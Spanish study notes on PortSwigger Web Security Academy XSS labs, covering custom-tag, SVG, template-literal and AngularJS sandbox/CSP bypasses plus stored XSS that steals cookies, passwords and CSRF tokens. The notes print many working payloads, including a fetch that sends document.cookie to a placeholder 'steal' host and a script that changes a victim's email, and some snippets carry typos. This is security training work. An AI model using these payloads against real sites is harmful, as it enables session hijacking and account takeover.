Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0af6000f0311801bbab39df200230060.web-security-academy.net/?search=%3Ci
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


### NOS DEVUELVE ESTOS EVENTOS

10	onbeforeinput	200	200	false	false	3502	
14	onbeforetoggle	200	199	false	false	3503	
18	oncancel	200	199	false	false	3497	
24	oncommand	200	199	false	false	3498	
25	oncontentvisibilityautostatechange	200	199	false	false	3523	
26	oncontentvisibilityautostatechange(hidden)	200	199	false	false	3531	
35	ondragexit	200	199	false	false	3499	
48	onformdata	200	199	false	false	3499	
50	ongesturechange	200	199	false	false	3504	
51	ongestureend	200	199	false	false	3501	
52	ongesturestart	200	199	false	false	3503	
74	onpagereveal	200	199	false	false	3501	
76	onpageswap	200	199	false	false	3499	
81	onpointercancel	200	199	false	false	3504	
92	onratechange	200	200	false	false	3501	
95	onresize	200	199	false	false	3497	
97	onscrollend	200	204	false	false	3500	
98	onscrollsnapchange	200	223	false	false	3507	
99	onscrollsnapchanging	200	208	false	false	3509	
101	onsecuritypolicyviolation	200	200	false	false	3514	




<body onresize=print()>



<body onresize=print()>

https://exploit-0aef008c03fd80f1ba149cbe01d600dc.exploit-server.net/



<iframe src="https://0af6000f0311801bbab39df200230060.web-security-academy.net/?search=<body onresize=print()>" onload=this.style.width='100px'></iframe>








# XSS reflejado con solo etiquetas personalizadas
En esta clase enfrentamos un entorno con XSS reflejado donde la aplicación ha bloqueado por completo todas las etiquetas HTML estándar, permitiendo únicamente etiquetas personalizadas. Este tipo de configuración busca prevenir inyecciones, pero aún puede ser burlada si no se filtran los atributos o eventos correctamente.

Utilizamos un servidor de explotación para construir un vector que incluye una etiqueta inventada, con un identificador específico y un evento que se activa al enfocar ese elemento. Al añadir un fragmento al final de la URL que apunta a esa etiqueta personalizada, el navegador intenta enfocarla automáticamente al cargar la página, lo que desencadena la ejecución del código malicioso sin necesidad de interacción del usuario.

Este laboratorio demuestra cómo incluso etiquetas no estándar pueden ser vehículos válidos para ataques XSS si los atributos y eventos no son controlados adecuadamente, reforzando la importancia de validar todo el contenido, no solo el nombre de la etiqueta.


## Laboratorio: XSS reflejado en contexto HTML con todas las etiquetas bloqueadas excepto las personalizadas
PRACTICANTE

LAB
No resuelto
Este laboratorio bloquea todas las etiquetas HTML excepto las personalizadas.

Para resolver el laboratorio, realice un ataque de secuencias de comandos entre sitios que inyecte una etiqueta personalizada y alerte automáticamente document.cookie.


<iframe src="https://0a4100f10338f6c9807203ee00c900d6.web-security-academy.net/?search=<xss autofocus onfocus=alert(document.cookie) tabindex=1></xss>"></iframe>



location.href='https://0a4100f10338f6c9807203ee00c900d6.web-security-academy.net/?search='+encodeURIComponent(document.cookie)



<custom-tag onfocus="alert(document.cookie); location.href='https://0a4100f10338f6c9807203ee00c900d6.web-security-academy.net/?search='+encodeURIComponent(document.cookie)" autofocus tabindex=1></custom-tag>


<script>
location='https://0a4100f10338f6c9807203ee00c900d6.web-security-academy.net/?search=<etiqueta  id=x onfocus=alert(document.cookie) tabindex=1>#x';
</script>










# XSS reflejado con etiquetas SVG permitidas
En esta clase trabajamos con un entorno de XSS reflejado donde la mayoría de etiquetas HTML estándar están bloqueadas, pero algunas relacionadas con SVG aún están permitidas, incluyendo ciertos eventos compatibles con esa tecnología.

La vulnerabilidad está en el buscador, que refleja la entrada del usuario directamente en la respuesta. Aunque intentos típicos de inyección son bloqueados, realizamos un análisis sistemático usando Burp Intruder para descubrir qué etiquetas y atributos aún son aceptados por el sistema.

Tras probar múltiples combinaciones, identificamos que algunas etiquetas del entorno SVG, como svg y animatetransform, junto con eventos como onbegin, no son filtradas y permiten la ejecución de código al momento de cargarse la página.

Aprovechamos esto para construir un vector que, sin intervención del usuario, desencadena una función en el navegador al iniciarse la animación SVG, completando con éxito el laboratorio.

Este caso demuestra cómo incluso los entornos con filtros activos pueden ser vulnerables si se dejan rutas menos comunes abiertas, como el espacio SVG, y destaca la importancia de validar tanto etiquetas como atributos y eventos asociados.


## Laboratorio: XSS reflejado con algún marcado SVG permitido
PRACTICANTE

LAB
No resuelto
Este laboratorio tiene una vulnerabilidad XSS reflejada simple. El sitio bloquea etiquetas comunes pero omite algunas etiquetas y eventos SVG.

Para resolver el laboratorio, realice un ataque de secuencias de comandos entre sitios que llame al alert() función.




<svg><desc></desc><script>alert(1)</script></svg>


### Buscar las etuiquetas en el INTRUDER

8	animatetransform	200	636	false	false	3281	
65	image	200	412	false	false	6423	


<svg>
  <animateTransform 
    attributeName="transform" 
    type="scale" 
    from="1" 
    to="2" 
    begin="0s" 
    onbegin="alert(document.cookie)" 
    dur="1s"
  />
</svg>



<svg>
  <animateTransform 
    onbegin="alert(0)" 
  />
</svg>



<svg>
  <animateTransform
    attributeName="transform"
    begin="0s"
    onbegin="fetch('https://tu-servidor.com/steal?cookie='+encodeURIComponent(document.cookie))"
    dur="0.1s"
  />
</svg>










# XSS reflejado en etiqueta canonical
En esta clase trabajamos con un XSS reflejado poco convencional, donde el punto vulnerable es una etiqueta utilizada para definir la URL canónica de la página. Aunque el sistema filtra los signos angulares para evitar aperturas de etiquetas nuevas, permite la inyección de atributos dentro de una etiqueta existente.

Aprovechamos este comportamiento para insertar atributos como accesskey y onclick, que nos permiten asociar una acción concreta —en este caso, la ejecución de código— a una combinación específica de teclas.

El exploit se construye de forma que, al presionar una combinación como Alt+Shift+X, el navegador dispare un evento que ejecuta la función deseada. Aunque no ocurre de forma automática al cargar la página, se considera válida ya que no requiere interacción directa con el contenido visible ni clics por parte del usuario.

Este laboratorio demuestra cómo atributos aparentemente inofensivos pueden ser utilizados como vectores de ejecución, y cómo el contexto de inyección —incluso en elementos como enlaces— puede tener implicaciones de seguridad si no se controla adecuadamente.


## Laboratorio: XSS reflejado en la etiqueta de enlace canónico
PRACTICANTE

LAB
No resuelto
Este laboratorio refleja la entrada del usuario en una etiqueta de enlace canónica y escapa de los corchetes angulares.

Para resolver el laboratorio, realice un ataque de secuencias de comandos entre sitios en la página de inicio que inyecte un atributo que llame al alert función.

Para ayudarle con su exploit, puede asumir que el usuario simulado presionará las siguientes combinaciones de teclas:

ALT+SHIFT+X
CTRL+ALT+X
Alt+X
Tenga en cuenta que la solución prevista para este laboratorio solo es posible en Chrome.


view-source:https://0a9f004f03f65bb6807d08b500ed007c.web-security-academy.net/?' accesskey='x' onclick='alert(1)


https://0a9f004f03f65bb6807d08b500ed007c.web-security-academy.net/?%27%20accesskey=%27x%27%20onclick=%27alert(1)









# XSS en string JS con comilla y backslash escapados
En esta clase abordamos un XSS reflejado que se produce dentro de una cadena de texto en un bloque de JavaScript. El valor de entrada del usuario es reflejado en una variable delimitada por comillas simples, y tanto estas comillas como las barras invertidas están escapadas para dificultar la inyección.

Al intentar romper la cadena directamente, observamos que los caracteres clave quedan neutralizados, impidiendo ejecutar código dentro del mismo contexto. La estrategia, entonces, consiste en cerrar la etiqueta de script actual e insertar una nueva, completamente separada, que contenga la instrucción maliciosa.

De este modo, el contenido inyectado no depende de romper la cadena desde dentro, sino de interrumpir el bloque de código y generar uno nuevo fuera del contexto protegido. El navegador interpreta esta estructura como válida, permitiendo la ejecución de la función deseada.

Este laboratorio enseña una técnica de evasión muy útil para entornos donde los caracteres de escape son aplicados, pero el análisis del contexto permite insertar etiquetas completas que se interpretan igualmente como ejecutables por el navegador.


## Laboratorio: XSS reflejado en una cadena JavaScript con comillas simples y barra invertida escapada
PRACTICANTE

LAB
No resuelto
Este laboratorio contiene una vulnerabilidad de secuencias de comandos entre sitios reflejada en la funcionalidad de seguimiento de consultas de búsqueda. La reflexión ocurre dentro de una cadena de JavaScript con comillas simples y barras invertidas escapadas.

Para resolver este laboratorio, realice un ataque de secuencias de comandos entre sitios que se salga de la cadena JavaScript y llame al alert función.

a';alert(1);//


- Contiene: espacio + cierre de script + nuevo script con alerta + comentario
- El </script> cierra el script actual prematuramente
- <script>alert(1) inicia un nuevo script malicioso
- // comenta el resto del código original



'</script><script>alert(1);//

'</script><script>alert(1);</script> 



<script>
var searchTerms = ' '</script><script>alert(1);// ';
document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>






Composición del payload:

- M4rdukwasH3re: Texto arbitrario de camuflaje
- \\\\\': Cuatro backslashes y una comilla simple

En JavaScript, \\\\ se convierte en \\ (dos backslashes literales)
- \' se convierte en ' (comilla simple escapada)
- -alert(1): Código malicioso a inyectar
- //: Comentario para neutralizar el resto de la línea


M4rdukwasH3re\\'-alert(1)//


<script>
var searchTerms = 'M4rdukwasH3re\\\\\'-alert(1)//';
document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>







# XSS en JS con comillas, corchetes y comilla escapada
En esta clase analizamos un XSS reflejado que ocurre dentro de una cadena de texto en JavaScript. El valor reflejado del buscador se inserta en una variable delimitada por comillas simples. En este caso, las comillas simples están escapadas correctamente, y tanto los signos angulares como las comillas dobles están codificados como entidades HTML.

Sin embargo, la clave está en que las barras invertidas no se escapan, lo que nos permite introducir una de forma manual y romper el contexto de la cadena desde fuera.

Aprovechamos esta debilidad insertando una barra invertida seguida de una comilla escapada que finaliza la cadena, y después inyectamos una instrucción directa, separándola del código original con un operador y comentarios para evitar errores de sintaxis.

Este laboratorio muestra cómo es posible evadir filtros mixtos —HTML y JavaScript— si se detecta un punto débil en alguno de los mecanismos de escape, como en este caso con las barras invertidas no gestionadas correctamente.


## Laboratorio: XSS reflejado en una cadena JavaScript con corchetes angulares y comillas dobles codificadas en HTML y comillas simples escapadas
PRACTICANTE

LAB
No resuelto
Este laboratorio contiene una vulnerabilidad de secuencias de comandos entre sitios reflejada en la funcionalidad de seguimiento de consultas de búsqueda, donde los corchetes angulares y los dobles están codificados en HTML y se escapan las comillas simples.

Para resolver este laboratorio, realice un ataque de secuencias de comandos entre sitios que se salga de la cadena JavaScript y llame al alert función.



<script>
var searchTerms = '&lt;script&gt;alert(1)&lt;/script&gt;';
document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>





\\\';-alert(1)//test

\\';-alert(1)//test











# XSS almacenado en ‘onclick’ con codificación completa
En esta clase trabajamos con un XSS almacenado que afecta al campo de sitio web del sistema de comentarios. Este valor es posteriormente utilizado dentro de un manejador de eventos del tipo onclick asociado al nombre del autor del comentario.

El sistema aplica múltiples medidas de protección: codifica los signos angulares y las comillas dobles como entidades HTML, y además escapa tanto las comillas simples como las barras invertidas. Sin embargo, al observar cuidadosamente cómo se construye el atributo, descubrimos que aún podemos romper la estructura si inyectamos un valor cuidadosamente diseñado.

Utilizamos un valor de URL que contiene una secuencia manipulada para cerrar el contexto del atributo y ejecutar una función directamente. El carácter de escape que normalmente neutralizaría la comilla es absorbido por la estructura de la URL, permitiendo que el código se ejecute al hacer clic sobre el nombre del autor.

Este laboratorio enseña cómo incluso con múltiples capas de filtrado, pueden encontrarse formas de romper el contexto si se entiende cómo se evalúan los caracteres especiales en combinación con el navegador.


## Laboratorio: XSS almacenado en onclick evento con corchetes angulares y comillas dobles codificadas en HTML y comillas simples y barra invertida escapada
PRACTICANTE

LAB
No resuelto
Este laboratorio contiene una vulnerabilidad de secuencias de comandos entre sitios almacenada en la funcionalidad de comentarios.

Para resolver este laboratorio, envíe un comentario que llame al alert función cuando se hace clic en el nombre del autor del comentario.


 <input pattern="(http:|https:).+" type="text" name="website">


<section class="comment">
<p>
<img src="/resources/images/avatarDefault.svg" class="avatar">                            
<a id="author" href="https://cdssass.com" onclick="var tracker={track(){}};tracker.track('https://cdssass.com');">test</a> | 07 August 2025
</p>
<p>test</p>
<p></p>
</section>



https://cdssass.com&apos;+alert(1)+&apos;










# XSS en template literal con caracteres unicode escapados
En esta clase abordamos un XSS reflejado que ocurre dentro de una cadena de plantilla de JavaScript —también conocida como template literal—, donde el valor introducido por el usuario se refleja en tiempo de ejecución dentro de un fragmento delimitado por comillas invertidas.

El sistema aplica un filtrado agresivo que codifica signos angulares, comillas simples y dobles, barras invertidas y las propias comillas invertidas, bloqueando así inyecciones clásicas. Sin embargo, no restringe las expresiones contenidas entre el símbolo de dólar y llaves, que son interpretadas como código ejecutable dentro de la plantilla.

Aprovechamos esta brecha introduciendo una expresión que se evalúa directamente al cargar la página, sin necesidad de romper el delimitador original. Al estar el contenido ya dentro de una cadena ejecutable, el navegador interpreta la expresión de inmediato y ejecuta la función deseada.

Este laboratorio demuestra cómo las cadenas de plantilla pueden ser un punto crítico de inyección si no se filtran expresiones embebidas, y destaca la importancia de neutralizar todos los elementos interpretables dentro de estructuras modernas de JavaScript.


## Laboratorio: XSS reflejado en una plantilla literal con corchetes angulares, comillas simples, dobles, barra invertida y comillas invertidas con escape Unicode
PRACTICANTE

LAB
No resuelto
Este laboratorio contiene una vulnerabilidad de secuencias de comandos entre sitios reflejada en la funcionalidad del blog de búsqueda. La reflexión ocurre dentro de una cadena de plantilla con corchetes angulares, comillas simples y dobles codificadas en HTML y comillas invertidas escapadas. Para resolver este laboratorio, realice un ataque de secuencias de comandos entre sitios que llame al alert función dentro de la cadena de plantilla.







<script>
var message = `0 search results for '\u003cscript\u003ealert(1)\u003c/script\u003e'`;
document.getElementById('searchMessage').innerText = message;
</script>


console.log(`mensaje de: ${mensaje}`) 
VM247:1 mensaje de: probando



console.log('mensaje de: ${mensaje}') 
mensaje de: ${mensaje}

console.log('mensaje de: ${alert(0)}'); 

console.log(`mensaje de: ${alert(0)}`); 




- ${alert(0)}








# Robo de cookies mediante XSS
En esta clase ponemos en práctica un caso realista de XSS almacenado con robo de sesión, donde el código malicioso se inyecta en un comentario de blog y se activa cuando otro usuario —en este caso, una víctima simulada— visualiza la página.

Aprovechamos la vulnerabilidad para insertar un fragmento de código que, al ejecutarse en el navegador de la víctima, recopila su cookie de sesión y la envía en segundo plano a un servidor externo controlado a través de Burp Collaborator, una herramienta diseñada para capturar interacciones fuera de banda.

Una vez interceptada la cookie, la utilizamos para suplantar la identidad del usuario afectado, inyectándola en nuestras propias peticiones mediante un proxy o el módulo Repeater de Burp Suite. Esto nos da acceso a áreas privadas como si fuéramos la víctima.

Este laboratorio demuestra cómo un XSS puede ir más allá de una simple alerta visual y usarse para comprometer directamente cuentas de usuario, lo que lo convierte en uno de los vectores más críticos en seguridad web.

## Laboratorio: Explotación de secuencias de comandos entre sitios para robar cookies
PRACTICANTE

LAB
No resuelto
Este laboratorio contiene una vulnerabilidad XSS almacenada en la función de comentarios del blog. Un usuario víctima simulado ve todos los comentarios después de su publicación. Para resolver el laboratorio, explote la vulnerabilidad para exfiltrar la cookie de sesión de la víctima y luego use esta cookie para hacerse pasar por la víctima.

Nota
Para evitar que la plataforma Academy se utilice para atacar a terceros, nuestro firewall bloquea las interacciones entre los laboratorios y sistemas externos arbitrarios. Para resolver el laboratorio, debes utilizar el servidor público predeterminado de Burp Collaborator.

Algunos usuarios notarán que existe una solución alternativa a este laboratorio que no requiere Burp Collaborator. Sin embargo, es mucho menos sutil que exfiltrar la galleta.


### Con BurpSuite Collaborator Profesional

<script>
  fecth("/?cookie="+btoa(document.cookie))
</script>


echo -n 'cookie' | base64 -d; echo  













# Captura de contraseñas mediante XSS
En esta clase llevamos el XSS almacenado un paso más allá, enfocándonos en capturar las credenciales de un usuario legítimo en lugar de solo su cookie de sesión. El entorno vulnerable es un sistema de comentarios donde el código inyectado queda persistente y se ejecuta cuando un visitante visualiza el contenido.

Aprovechamos esta oportunidad para insertar campos de entrada personalizados en el comentario, imitando elementos ya existentes en la página. Añadimos un evento que, cuando el usuario introduce su contraseña, intercepta el valor junto con su nombre de usuario y los envía automáticamente al servidor público de Burp Collaborator.

Una vez que recibimos esta información en el panel de Collaborator, podemos utilizar las credenciales capturadas para iniciar sesión como la víctima, accediendo así directamente a su cuenta.

Este laboratorio demuestra cómo el XSS puede emplearse para técnicas de credential harvesting, especialmente cuando se combinan con ingeniería social y campos camuflados. También refuerza la importancia de tratar todo contenido generado por usuarios como potencialmente malicioso.


Laboratorio: Explotación de secuencias de comandos entre sitios para capturar contraseñas
PRACTICANTE

LAB
No resuelto
Este laboratorio contiene una vulnerabilidad XSS almacenada en la función de comentarios del blog. Un usuario víctima simulado ve todos los comentarios después de su publicación. Para resolver el laboratorio, aproveche la vulnerabilidad para exfiltrar el nombre de usuario y la contraseña de la víctima y luego use estas credenciales para iniciar sesión en la cuenta de la víctima.

Nota
Para evitar que la plataforma Academy se utilice para atacar a terceros, nuestro firewall bloquea las interacciones entre los laboratorios y sistemas externos arbitrarios. Para resolver el laboratorio, debes utilizar el servidor público predeterminado de Burp Collaborator.

Algunos usuarios notarán que existe una solución alternativa a este laboratorio que no requiere Burp Collaborator. Sin embargo, es mucho menos sutil que exfiltrar las credenciales.



### Con BurpSuite Collaborator Profesional














# Evasión de CSRF usando XSS [1/2]

En esta clase explotamos un XSS almacenado para ejecutar una acción que normalmente estaría protegida por medidas anti-CSRF. La aplicación permite insertar comentarios maliciosos que se ejecutan cuando otro usuario visita el blog, lo que nos permite acceder a sus sesiones activas y realizar acciones en su nombre.

Nuestro objetivo es cambiar la dirección de correo electrónico del usuario afectado. Para ello, necesitamos primero obtener el token CSRF válido que protege dicha operación. Aprovechamos el XSS para hacer una petición al área de configuración de cuenta, capturar el contenido de la respuesta y extraer el token desde el HTML.

Una vez que tenemos el token, generamos una segunda petición desde el navegador de la víctima, enviando el token y la nueva dirección de correo. Como todo ocurre dentro de su propia sesión, la operación se realiza con éxito.

Este laboratorio demuestra cómo un XSS puede romper las defensas de tipo CSRF y subraya la importancia de que los tokens no solo estén presentes, sino que también estén correctamente aislados del acceso por parte de scripts inyectados.

 


### Laboratorio: Explotación de XSS para eludir las defensas CSRF
PRACTICANTE

LAB
No resuelto
Este laboratorio contiene una vulnerabilidad XSS almacenada en la función de comentarios del blog. Para resolver el laboratorio, explota la vulnerabilidad para robar un token CSRF, que luego puedes usar para cambiar la dirección de correo electrónico de alguien que vea los comentarios de la publicación del blog.

Puede iniciar sesión en su propia cuenta utilizando las siguientes credenciales: 
            
              wiener :peter


<script>
  var req=XMLHttpRequest();
  req.open("GET","/my-account",false)
  req.send();
  var respnse = req.responseText;
  var csrf_token = response.match(/name="csrf" value=*(.*?)*/)[1];
  var req2=XMLHttpRequest();
  req2.open("GET","http://_?token=" +btoa(csrf_token));
  req2.send();
</script>


echo -n 'cookie' | base64 -d; echo  







------------------forma 2



<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>




-----Formulario

@ --> %40


Leave a comment
Comment:

<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test%40test.com')
};
</script>
Name:
test1
Email:
mexed18326@mcenb.com
Website:
https://test1.com








POST /my-account/change-email HTTP/2
Host: 0a0200cc032e79fe805e26c100d30074.web-security-academy.net
Cookie: session=3ad392RC0TzVEaN4sKC1hHVBYwy9tPeV
Content-Length: 65
Cache-Control: max-age=0
Sec-Ch-Ua: "Not)A;Brand";v="8", "Chromium";v="138"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Origin: https://0a0200cc032e79fe805e26c100d30074.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a0200cc032e79fe805e26c100d30074.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

email=testing@testing.com&csrf=QsYcO0AB3a5cWKbUecRR0V7T7NF55lH3





------------------forma 3


<script>
  var req=XMLHttpRequest();
  req.open("GET","/my-account",false)
  req.send();
  var respnse = req.responseText;
  var csrf_token = response.match(/name="csrf" value=*(.*?)*/)[1];
  var req2=XMLHttpRequest();
  req2.open('post', '/my-account/change-email', true);
  req2.setRequestHeader("Content-Type: application/x-www-form-urlencoded");
  var data = 'email='+encodeURIComponent('test@test.com')+'&csrf='+encodeURIComponent(token);
  req2.send()
</script>








--Vesrion mejorada

<script>
  // Obtener el token CSRF de la página de la cuenta
  var request = new XMLHttpRequest();
  request.open("GET", "/my-account", false); // Sincrónico (no recomendado en producción)
  request.send();
  
  // Verificar que la respuesta sea exitosa
  if (request.status === 200) {
    var response = request.responseText;
    
    // Extraer el token CSRF de forma más robusta
    var csrfMatch = response.match(/name="csrf" value="([^"]+)"/);
    
    if (csrfMatch && csrfMatch[1]) {
      var csrfToken = csrfMatch[1];
      
      // Enviar la petición para cambiar el email
      var changeRequest = new XMLHttpRequest();
      changeRequest.open('POST', '/my-account/change-email', true);
      changeRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
      
      // Codificar los parámetros para seguridad
      var postData = 'email=' + encodeURIComponent('test@test.com') + 
                    '&csrf=' + encodeURIComponent(csrfToken);
      
      changeRequest.send(postData);
    } else {
      console.error("No se pudo encontrar el token CSRF");
    }
  } else {
    console.error("Error al cargar la página de cuenta:", request.status);
  }
</script>s











# Escape de sandbox AngularJS sin cadenas [1/2]
En esta clase de nivel ‘experto’, trabajamos con una vulnerabilidad de ‘XSS reflejado’ en una aplicación que utiliza AngularJS con restricciones avanzadas. La inyección ocurre dentro de una expresión Angular, pero el entorno está configurado para evitar el uso de ‘eval’ y bloquear por completo cualquier intento de utilizar cadenas de texto.

El enfoque consiste en usar funciones nativas de JavaScript para construir cadenas de forma indirecta. Aprovechamos el método ‘toString()‘ y la propiedad ‘constructor‘ para acceder al prototipo de los objetos y redefinir cómo se comportan. En concreto, se sobrescribe el método ‘charAt‘ del prototipo de las cadenas, lo que permite eludir el sistema de seguridad interno de AngularJS.

Luego pasamos una expresión al filtro ‘orderBy‘, y generamos el código deseado utilizando ‘fromCharCode‘ con los valores numéricos correspondientes a los caracteres de la cadena ‘x=alert(1)‘. Como hemos alterado el comportamiento interno de las cadenas, AngularJS permite que esta expresión se ejecute donde normalmente estaría bloqueada.

Este laboratorio demuestra cómo es posible romper entornos supuestamente seguros mediante manipulación de bajo nivel, sin depender de comillas o funciones evaluadoras explícitas.



En esta segunda parte continuamos explotando un entorno de ‘XSS reflejado’ en AngularJS, donde no se permite el uso de cadenas, comillas, ni funciones como ‘eval‘. Reforzamos lo aprendido en la clase anterior y profundizamos en cómo manipular constructores y prototipos para ejecutar expresiones dentro del sandbox.

El foco está en utilizar estructuras internas del lenguaje para fabricar dinámicamente código válido sin recurrir a literales de texto. Se emplean métodos como ‘toString()‘, ‘constructor‘, y ‘fromCharCode‘ para construir instrucciones como ‘alert(1)‘ a partir de sus equivalentes en código numérico.

La clave del bypass sigue estando en redefinir el método ‘charAt‘ para interferir en el proceso de validación de AngularJS. Al combinar esto con filtros como ‘orderBy‘, conseguimos ejecutar código dentro de la plantilla sin activar las restricciones típicas del sandbox.

Esta clase cierra el bloque de técnicas avanzadas sobre AngularJS, mostrando cómo una comprensión profunda de JavaScript y el comportamiento de los frameworks puede permitir la ejecución de código incluso en entornos fuertemente limitados.



## Laboratorio: XSS reflejado con escape de sandbox Angularjs sin cuerdas
EXPERTO

LABORATORIO
No resuelto
Este laboratorio utiliza AngularJS de una manera inusual donde la función $ eval no está disponible y no podrá usar ninguna cadena en AngularJS.

Para resolver el laboratorio, realice un ataque de secuencias de comandos de sitios cruzados que escape del sandbox y ejecute la función de alerta sin usar la función $ eval.


Decimal Converter

120,61,97,108,101,114,116,40,49,41 -> x=alert(1)


/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1













# Escape de sandbox AngularJS con CSP
En esta clase de nivel experto abordamos un entorno altamente restringido donde coexisten dos capas de protección: una política CSP que impide la ejecución directa de scripts no autorizados, y el sandbox de AngularJS, que filtra el acceso a objetos críticos como el contexto global del navegador.

Para evadir ambas restricciones, construimos un vector que utiliza una expresión Angular inyectada dentro de un evento enfocado. Aprovechamos el evento ng-focus para ejecutar código al activarse el elemento y accedemos al objeto del evento a través de una variable predefinida por Angular. Esta variable contiene una ruta hacia el objeto window, sin necesidad de referenciarlo directamente, lo que nos permite eludir la validación del sandbox.

La inyección se construye utilizando el filtro orderBy con un argumento malicioso. En lugar de invocar directamente la función de alerta, se asigna a una variable dentro del filtro, y esta se ejecuta cuando se alcanza el contexto de ejecución adecuado.

Esta lección demuestra cómo es posible encadenar múltiples técnicas para vulnerar aplicaciones modernas protegidas por frameworks y políticas de seguridad del navegador, haciendo uso de pequeñas brechas lógicas dentro de los mecanismos de aislamiento.



## Laboratorio: XSS reflejado con escape de sandbox AngularJS y CSP
EXPERTO

LAB
No resuelto
Este laboratorio utiliza CSP y AngularJS.

Para resolver el laboratorio, realice un ataque de secuencias de comandos entre sitios que evite CSP, escape del entorno limitado de AngularJS y emita alertas document.cookie.





- default-src 'self'   -> Permite cargar Recursos del mismo origen
- script-src 'self'    -> Permite scripts del mismo Dominio,, no <scrip>, no eval
- style-src 'unsafe-inline' 'self' -> Pemirmite estilos inline y del mismo origen




<input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)(1)'>



<input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)(document.cookie)'>#x


<script>
location.href='https://0a7d00b203f16a1980d1c68d00a100ce.web-security-academy.net/?search=<input id=x+ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27>#x';
</script>












# XSS con eventos y atributos bloqueados
En esta clase trabajamos con un entorno donde la inyección de código se limita a un conjunto restringido de etiquetas permitidas. Todos los eventos JavaScript y los atributos href están bloqueados, lo que impide usar vectores clásicos como enlaces con scripts o atributos on-click.

Para evadir estas restricciones, utilizamos una estructura SVG compuesta que simula un enlace visual. Insertamos una etiqueta de animación dentro de un elemento interactivo y manipulamos un atributo gráfico permitido para que, al ser activado, modifique el valor del enlace con un esquema que ejecuta código.

La animación se activa de forma implícita al interactuar con el contenido, y dado que se encuentra dentro de un SVG, el navegador interpreta la secuencia de forma válida aunque los filtros bloqueen atributos estándar. Además, se incluye la palabra Click como anzuelo visual para atraer al usuario simulado del laboratorio a realizar la acción.

Este laboratorio demuestra cómo el uso creativo de etiquetas permitidas dentro de entornos gráficos como SVG puede servir para evadir restricciones avanzadas y ejecutar código malicioso en el navegador de la víctima.



## Laboratorio: XSS reflejado con controladores de eventos y href atributos bloqueados
EXPERTO

LAB
No resuelto
Este laboratorio contiene una vulnerabilidad XSS reflejada con algunas etiquetas incluidas en la lista blanca, pero todos los eventos y anclajes href Los atributos están bloqueados.

Para resolver el laboratorio, realice un ataque de secuencias de comandos entre sitios que inyecte un vector que, al hacer clic, llame al alert función.

Tenga en cuenta que debe etiquetar su vector con la palabra "Clic" para inducir al usuario de laboratorio simulado a hacer clic en su vector. Por ejemplo:

<a href="">Click me</a>







1	a	200	495	false	false	3316	
6	animate	200	456	false	false	3322	



<svg>
<a>
<animate>
</a>
</svg>



<svg>
  <a>
    <animate attributeName="href" values="javascript:alert('Click me')" begin="0s" dur="1s" fill="freeze">
    test
    </animate>
  </a>
</svg>


<svg><a><animate attributeName=href values=javascript:alert(0)/><text>Click me</text></a></svg>








# XSS en javascript: con caracteres limitados [1/2]
En esta clase de nivel experto nos enfrentamos a un entorno donde la inyección se produce dentro de una URL con esquema JavaScript, pero con múltiples restricciones: algunos caracteres están bloqueados y no se permite el uso directo de espacios. A pesar de que puede parecer un desafío simple, la protección activa complica la ejecución directa del código.

Para resolverlo, utilizamos una estructura avanzada basada en funciones flecha y manejo de errores. Creamos un bloque con una función que lanza una excepción. Luego, asignamos la función de alerta al manejador onerror, lo que nos permite ejecutarla indirectamente. Usamos una conversión de objeto a cadena para activar la ejecución, evitando el uso de paréntesis o llamadas explícitas a funciones.

Además, insertamos el número 1337 dentro del contenido de la alerta como requiere el laboratorio. El exploit se dispara solo cuando se hace clic en el botón que redirige al blog, lo que simula un comportamiento realista donde el usuario completa la acción que activa el código.

Este laboratorio muestra cómo, incluso con múltiples capas de restricción, es posible ejecutar código si se comprende a fondo el comportamiento del motor de JavaScript y se combinan constructores de lenguaje de forma creativa.

En esta continuación del laboratorio anterior, profundizamos en técnicas avanzadas para ejecutar un XSS reflejado dentro de una URL con esquema JavaScript, enfrentándonos nuevamente a restricciones como bloqueo de espacios y caracteres especiales.

El objetivo es perfeccionar el uso de estructuras complejas del lenguaje para forzar la ejecución del código. Mantenemos el enfoque en el uso de funciones flecha que permiten utilizar sentencias como throw, normalmente no válidas en expresiones, y combinamos esta técnica con la redefinición de propiedades internas como toString.

